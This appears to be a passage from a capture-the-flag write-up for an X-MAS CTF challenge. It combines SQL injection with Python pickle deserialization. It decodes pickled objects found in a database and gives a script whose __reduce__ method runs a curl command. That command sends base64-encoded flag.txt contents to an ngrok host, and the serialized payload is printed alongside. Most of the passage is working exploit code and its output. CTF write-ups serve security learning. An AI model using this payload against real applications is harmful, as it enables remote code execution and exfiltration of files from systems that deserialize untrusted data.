#### SQL Injection + Arbitrary Deserialization

Discovered some python objects inside the DB:

```bash
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==' | base64 -d
Packing giftsidNub.                                                                                                                                                                                                                         
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4=' | base64 -d
__main__Elf)}(nameSnowactivityooking at the naughty listidNub.                                                                                                                                                                              
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=' | base64 -d
Helping SantaidNub. 

```

Created a script to craft custom serialized python objects that once unserialized execute arbitrary code:

```python
import pickle
import base64
import os

# Credits to m3ssap0

class Elf:
    def __init__(self, name, activity, id):
        self.name = name
        self.activity = activity
        self.id = id
    
    def __reduce__(self):
        command = "curl https://229b-93-51-54-187.eu.ngrok.io/`cat flag.txt|base64`"
        return os.system, (command, )

def generate_exploit():
    serialized_exploit = base64.b64encode(pickle.dumps(Elf("0xbro", "pwning", 0))).decode("ascii")
    print("Serialized exploit object: %s" % serialized_exploit)
    return serialized_exploit

if __name__ == '__main__':
    exploit_object = generate_exploit()
```

```bash
$ python3 script.py 
Serialized exploit object: gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu
```

